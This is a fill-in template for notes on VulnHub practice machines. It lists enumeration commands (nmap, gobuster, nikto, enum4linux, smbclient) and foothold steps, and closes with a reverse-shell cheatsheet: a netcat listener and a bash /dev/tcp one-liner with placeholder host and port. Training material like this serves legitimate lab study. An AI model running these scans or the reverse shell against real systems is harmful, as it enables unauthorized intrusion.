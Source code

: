 # VulnHub Pentest Notes - [Machine Name]  
🔍 **Target IP:** `X.X.X.X`  
🖥 **OS:** Linux/Windows (Update accordingly)  
📅 **Date:** YYYY-MM-DD  

---
## Resources & References  
📌 [VulnHub Link]()  
📌 [YouTube Walkthrough (if available)]()  

---
# 🕵️ Enumeration  

### 🛜 Network Discovery  
- [ ] `netdiscover -r <target-range>`  
- [ ] `arp-scan -l`  

### 🌐 Port Scanning  
- [ ] `nmap -sC -sV -p- -oN nmap_scan.txt <IP>`  
- [ ] `rustscan -a <IP> -- -A -oN rustscan.txt`  

### 🕸️ Web Enumeration  
- [ ] `gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt -x php,html,txt`  
- [ ] `nikto -h http://<IP>/`  

### 🔐 Credentials & SMB/NFS  
- [ ] `enum4linux -a <IP>`  
- [ ] `smbclient -L //<IP> -N`  
- [ ] `showmount -e <IP>`  

---
# 🦶 Initial Foothold  
- [ ] Identify possible exploits  
- [ ] Try default credentials  
- [ ] Use Metasploit/Manual Exploitation  
- [ ] Upload and use a reverse shell  

### Reverse Shell Cheatsheet  
```bash
nc -lvnp <PORT>
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1

